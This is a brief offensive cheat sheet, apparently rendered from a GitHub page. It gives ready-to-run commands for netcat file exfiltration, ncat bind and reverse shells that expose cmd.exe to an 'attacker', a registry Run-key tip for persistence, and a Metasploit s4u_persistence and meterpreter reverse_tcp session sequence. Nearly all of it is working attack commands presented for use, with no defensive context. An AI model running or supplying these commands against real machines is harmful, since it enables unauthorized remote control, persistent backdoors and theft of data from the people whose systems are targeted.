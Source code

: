 **Data exfiltration with Netcat**

Receiver:

```bash
nc -lvnp 8888 > received.txt
```

Sender (the IP of the receiver):

```bash
cat message.txt | nc -v 192.168.1.1 8888
```

**Backdoor using ncat**

Victim:

```bash
ncat -l -p 5555 -e cmd.exe
```

Attacker (the IP of the victim):

```bash
ncat 192.168.1.66 5555
```

**Reverse Backdoor using ncat**

Attacker:

```bash
ncat -l -p 5555 -v
```

Victim (the IP of the attacker):

```bash
ncat -e cmd.exe 192.168.1.66 5555
```

Tip: For persistent reverse backdoor use the registry key `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

**Reverse Backdoor using Metasploit**

```bash
msfconsole
use exploit/windows/local/s4u_persistence
show options
sessions
set session <session-id>
set trigger logon
set payload windows/meterpreter/reverse_tcp
set lhost <local-ip>
set lport 1234
exploit
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost <local-ip>
set lport 1234
exploit
sysinfo
ps
help
```
